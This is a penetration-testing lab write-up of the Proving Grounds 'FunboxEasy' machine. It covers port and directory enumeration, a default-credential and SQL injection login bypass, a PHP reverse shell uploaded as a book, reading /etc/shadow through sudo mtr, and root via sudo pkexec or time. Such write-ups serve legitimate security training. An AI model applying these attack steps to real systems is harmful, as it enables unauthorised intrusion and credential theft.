# FunboxEasy
**Date:** June 9th 2022

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Easy

<br>



<br>

## Objectives
- local.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 192.168.211.111`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_gym
```

An additional all ports scan reveals the following:

```
PORT      STATE SERVICE VERSION
33060/tcp open  mysqlx?
```

<br>

### Gobuster Scan

`gobuster dir -u http://192.168.211.111 -t 100 -r -x php,txt,html -w dir-med.txt`

```
/admin                (Status: 200) [Size: 3263]
/header.php           (Status: 200) [Size: 1666]
/store                (Status: 200) [Size: 3998]
/registration.php     (Status: 200) [Size: 9409]
/profile.php          (Status: 200) [Size: 3468]
/logout.php           (Status: 200) [Size: 75]  
/dashboard.php        (Status: 200) [Size: 3468]
/leftbar.php          (Status: 200) [Size: 1837]
/forgot-password.php  (Status: 200) [Size: 2763]
/gym                  (Status: 200) [Size: 4848]
/hitcounter.txt       (Status: 200) [Size: 1]
```

<br>

## Website Digging

The main page has a default unconfigured Apache2 page.

**robots.txt** has the following in it:

```
Disallow: gym
```

The **/admin** page has a login:



**/header.php**:



**/index.php** shows us another login page:



**/registration.php** allows us to sign up:



**/leftbar.php** and the menu options under BROWSE will not work for us:



**/gym** which also showed up in **robots.txt**:


Looking around the **gym** page shows us the following in the **contact** menu so we know we have a **LAMP stack** here:



**/store** shows us our old friend the CSE bookstore:



In the lower right is a login link.

I know from past experience there is a **default login** for this of admin / admin and give that a try here. It's also vulnerable to an **SQL injection** and you can use admin / ' or 1=1. The default credentials can be found here:

**/store/database/readme.txt.txt**

After logging in we can add a new book with a reverse php shell in it:






<br>

## System Access

I start up a listener on my system and then visit the **books** link on the top menu bar. We can see a blank book in the top left which represents the book we just created, and we also immediately get our reverse shell back:



```
listening on [any] 4444 ...
connect to [192.168.49.211] from (UNKNOWN) [192.168.211.111] 44506
Linux funbox3 5.4.0-42-generic #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:34:09 up  1:47,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ hostname
funbox3
```

Upgrading the shell with python3:



<br>

## System Enumeration (www-admin)

`sudo -l` requires a password.

`find / -perm /4000 2>/dev/null` doesn't give us any interesting SUID files.

`find / -name local.txt 2>/dev/null` shows us our **local.txt** flag is in the **/var/www** directory:

`wc -c /var/www/local.txt`

```
33 /var/www/local.txt
```

I look for **cronjobs** but there aren't any that we can see.

Looking at **/etc/passwd** shows us 2 users with login shells:

```
root:x:0:0:root:/root:/bin/bash
tony:x:1000:1000:#:/home/tony:/bin/bash
```

I head over to the **/home/tony** directory and find this file waiting:

```
-rw-rw-r-- 1 tony tony   70 Jul 31  2020 password.txt
```

And viewing it:

```
ssh: <REDACTED>
gym/admin: <REDACTED>
/store: admin@admin.com <REDACTED>
```

<br>

## System Enumeration (tony)

I ssh over as tony using the password we just found:

```
tony@funbox3:~$ whoami
tony
tony@funbox3:~$ hostname
funbox3
```

Checking `sudo -l`:

```
Matching Defaults entries for tony on funbox3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD: /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
```

Well that's certain a lot of things we can do as root.

Most of the commands don't exist after looking for them.

After playing around with these you can use **/usr/bin/mtr** to read files you aren't supposed to be able to access:

`sudo /usr/bin/mtr --raw -F "/etc/shadow"`

```
/usr/bin/mtr: Failed to resolve host: root:$6$vhQCRnZ7cB8CmPHi$FGwOfBLodnjYboCNgkE.e5fN7J3qEdXahyKIrSR1lt3eeVIdHBfUvl8Dow4/CYLAAk.7YKVDOqKSG2pLLnHUq/:18565:0:99999:7:::: Name or service not known
/usr/bin/mtr: Failed to resolve host: tony:$6$3CcVDtP8rpQ/g1AY$tpRzq31JEsdsbEi4AD7wG5XfgrEwsr0j4vHqSQmkTpYvx.yHrB/xv3pv8Xlko/5P4vzW4v8BC3tG/YPtbbzVN0:18473:0:99999:7:::: Name or service not known
```

And you can escalate privileges to root using either **pkexec** or **time**.

<br>

## Root

**pkexec** escalation method:

`sudo /usr/bin/pkexec /bin/bash`

```
tony@funbox3:~$ sudo /usr/bin/pkexec /bin/bash
root@funbox3:~# whoami
root
root@funbox3:~# hostname
funbox3
root@funbox3:~#
```

**time** escalation method:

`sudo /usr/bin/time /bin/bash`

```
tony@funbox3:~$ sudo /usr/bin/time /bin/bash
root@funbox3:~# whoami
root
root@funbox3:~# hostname
funbox3
root@funbox3:~#
```

The **.smile.sh** script that showed up under `sudo -l` for **tony** doesn't exist.

Checking for our flag:

`wc -c /root/proof.txt`

```
33 /root/proof.txt
```

<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration using **nmap** and **gobuster**
- Manually enumerating several different websites hosted on the server
- Finding default **admin** credentials and logging into the bookstore with them
- Creating a new book in the bookstore with a **php reverse shell** attached to it and using that to gain an initial foothold on the system
- Finding a user created **password.txt** file with login credentials in it and laterally moving to that user
- The new user had several entries in **sudo -l** and we were able to escalate our privileges to root using either **time** or **pkexec**

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
